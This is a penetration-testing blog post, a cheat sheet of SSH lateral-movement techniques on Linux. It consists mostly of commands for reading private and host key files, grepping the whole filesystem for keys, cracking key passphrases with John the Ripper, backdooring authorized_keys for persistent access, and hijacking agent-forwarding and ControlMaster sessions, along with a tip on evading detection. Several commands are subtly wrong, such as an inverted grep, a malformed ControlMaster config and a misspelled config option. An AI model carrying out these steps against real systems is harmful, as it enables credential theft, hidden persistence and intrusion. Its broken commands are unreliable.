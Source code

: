 ```yaml
---
layout: blog_item
title: "SSH Lateral Movement Cheat Sheet"
date:   2021-06-03 15:29:10
author: Arr0way
description: 'SSH lateral movement cheat sheet, a collection of lateral movement techniques to move deeper through the network.'
categories: [cheat-sheet]
tags:

- 'Linux Lateral Movement'
---
```


* list element with functor item
{:toc}

## What is a Lateral Movement 

A lateral movement typically occurs after a host has been compromised via a reverse shell, and foothold in the network is obtained. Fully compromising the target machine by performing Linux privilege escalation or Windows privilege escalation could be advantageous due to the increased access to files or operating system functionality leveraged by a root level account.

This article focuses specifically on SSH lateral movement techniques on Linux.

<!--more-->

## SSH Lateral Movement 

SSH private keys are typically an easy way to progress through the network, and are often found with poor permissions or duplicated in home directories. This article does not cover SSH pivoting in depth, we have a separate resource for [SSH pivoting](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/).  

<div class="note info">
  <h5>Enumerate Non UNIX Based Hosts for Private Keys</h5>
  <p>SSH is not specific to UNIX based operating systems, consider enumerating Windows target for SSH private keys.</p>
</div>

### Manually Look for SSH Keys

Check home directories and obvious locations for private key files: 

{% highlight bash %}

/home/*
cat /root/.ssh/authorized\_keys 
cat /root/.ssh/identity.pub 
cat /root/.ssh/identity 
cat /root/.ssh/id\_rsa.pub 
cat /root/.ssh/id\_rsa 
cat /root/.ssh/id\_dsa.pub 
cat /root/.ssh/id\_dsa 
cat /etc/ssh/ssh\_config 
cat /etc/ssh/sshd\_config 
cat /etc/ssh/ssh\_host\_dsa\_key.pub 
cat /etc/ssh/ssh\_host\_dsa\_key 
cat /etc/ssh/ssh\_host\_rsa\_key.pub 
cat /etc/ssh/ssh\_host\_rsa\_key 
cat /etc/ssh/ssh\_host\_key.pub 
cat /etc/ssh/ssh\_host\_key
cat ~/.ssh/authorized\_keys 
cat ~/.ssh/identity.pub 
cat ~/.ssh/identity 
cat ~/.ssh/id\_rsa.pub 
cat ~/.ssh/id\_rsa 
cat ~/.ssh/id\_dsa.pub 
cat ~/.ssh/id\_dsa 

{% endhighlight %}

### Search For Files Containing SSH Keys

{% highlight bash %} 
grep -irv "-----BEGIN RSA PRIVATE KEY-----" /home/*
grep -irv "BEGIN DSA PRIVATE KEY" /home/*

grep -irv "BEGIN RSA PRIVATE KEY" /*
grep -irv "BEGIN DSA PRIVATE KEY" /*

{% endhighlight %}


### Identify The Host for the Key

<div class="note tip">
  <h5>Hashed known_hosts</h5>
  <p>Modern Linux systems may hash the known_hosts file entries to help prevent against enumeration.</p>
</div>

If you find a key you then need to identify what server the key is for. In an attempt to idenitfy what host the key is for the following locations should be checked: 

{% highlight bash %}
/etc/hosts 
~/.known_hosts
~/.bash_history 
~/.ssh/config 
{% endhighlight %}

### Cracking SSH Passphrase Keys

If the discovered SSH key is encrypted with a passphrase this can be cracked locally (much faster), below are several methods. If you have access to a GPU hashcat should be leveraged to improve the cracking time. 

#### Cracking SSH Passphrase with John the Ripper 

John the Ripper has a function to convert he key to a hash called john2hash.py and comes pre installed on Kali.

1. Convert the hash: python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash-john 
2. Use a comprehensive wordlist: john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash-john 
3. Wait and hope 

<div class="note warning">
  <h5>Help Avoid Detection</h5>
  <p>Avoid directly connecting from a unknown host to the target SSH server, use an already known host to help prevent detection alerts being issued. </p>
</div>

### SSH Passphrase Backdoor

While you have access to the compromised host, it is typically a good idea to backdoor the SSH authorized_keys file which will allow for passwordless login at a point in the future. This should provide an easier and more reliable connection than exploiting and accessing via a reverse shell; and potentially reduce the risk of detection. 

Adding the key is simply a case of paste a SSH public key, generated on your attacking machine and pasting it into the ~/ssh/authorized_keys file on the compromised machine. 

1. run ssh-keygen -t rsa -b 4096 
2. cat id_rsa.pub and copy the file contents 
3. echo "SSH key data" >> ~/.ssh/authorized_keys 
4. Test you can connect using the private key without being prompted for a password 

## SSH Agent Forwarding Hijacking

Starting point: You have SSH already backdoored the compromised host by adding your public key to the ~/.authorized_keys file.  

### How SSH Agent Works

SSH agent works by allowing the Intermediary machine to pass-through (forward) your SSH key from your client to the next downstream server, allowing the machine in the middle (potentially a bastion host) to use your key without having physical access to your key as they are not stored on the intermediate host but simply forwarded on to the downstream target server. 

- Access the machine where the existing victim user session is established
- Root level access to the machine where the victim session is established
- A current victim SSH  connection with agent forwarding enabled 

Your Machine => Intermediary Host (forwards your key) => Downstream Machine 

#### The Risk

The risk here is that if you have an open session and the intermediatory machine 

### How To Hijack SSH Agent Forwarding

Attacking Machine => Compromised Intermediary Host (with SSH Key) => Downsteam Machine (final destination) 

SSH agent forwarding allows a user to connect to other machines without entering passwords. This functionality can be exploited to access any host the compromised users SSH key has access to (without having direct access to the keys), while there is an active session. 

A potentially easier way to think of SSH agent forwarding, is to think of it as assigning the SSH key to the active SSH session, while the session is in place it is possible to access the SSH key and connect to other machines that the SSH key has access.     

In order to exploit SSH agent forwarding an active session must be open between the users client (that you wish to hijack) and the compromised intermediary host. You will also require access to the host where the user connect is with a superuser account with the privileges (such as ```su - username```) to access the account running the active SSH session you wish to hijack. 

<div class="note tip">
  <h5>If -A SSH Connection Fails</h5>
  <p>If -A fails to connect, perform the following: ```echo "ForwardingAgent yes" >> ~/.ssh/config``` to enable agent forwarding. </p>
</div>

#### Client Instructions 

Run the following on your local client machine: 

You may need to create a new key, if so run ```ssh-add```. 

1. Open an SSH connection using agent forwarding to the compromised host  ```ssh -A user@compromsied-host``` 
2. Verify agent forwarding is working by using: ```ssh-add -l```
3. Obtain root: ```sudo -s```
4. Gain access to the account you wish to access:  ``` su - victim ```
5. Access any SSH connection the private key of the victim has access 

### SSH Hijacking with ControlMaster 

OpenSSH has a function called **ControlMaster** that enables the sharing of multiple sessions over a single network connection. Allowing you to connect to the server once and have all other subsequent SSH sessions use the initial connection. 

In order to exploit SSH ControlMaster you first need shell level access to the target; you will then need sufficient privileges to modify the config of a user to enable the  ControlMaster functionality.

1. Gain shell level access to the target machine 
2. Access the victim users home directory and create / modify the file ``` ~/.ssh/config ``` 
3. Add the following configuration: 

{% highlight bash %}
Host *

ControlMaster auto
~/.ssh/master-socket/%r@%h:%p
ControlPersist yes
{% endhighlight %}

4. ensure the master-socket directory exists if it does not, create it  ```mkdir ~/.ssh/master-socket/ ``` 
5. Ensure the correct permissions are in place for the config file  ```chmod 600 ~/.ssh/config ```
6. Wait for the victim to login and establish a connection to another server 
7. View the directory created at step 4 to observe the socket file:  ```ls -lat ~/.ssh/master-socket ```
8. To hijack the existing connection ssh to user@hostname / IP listed in step 7 


If you know of more techniques let me know on twitter @Arr0way 

Enjoy. 
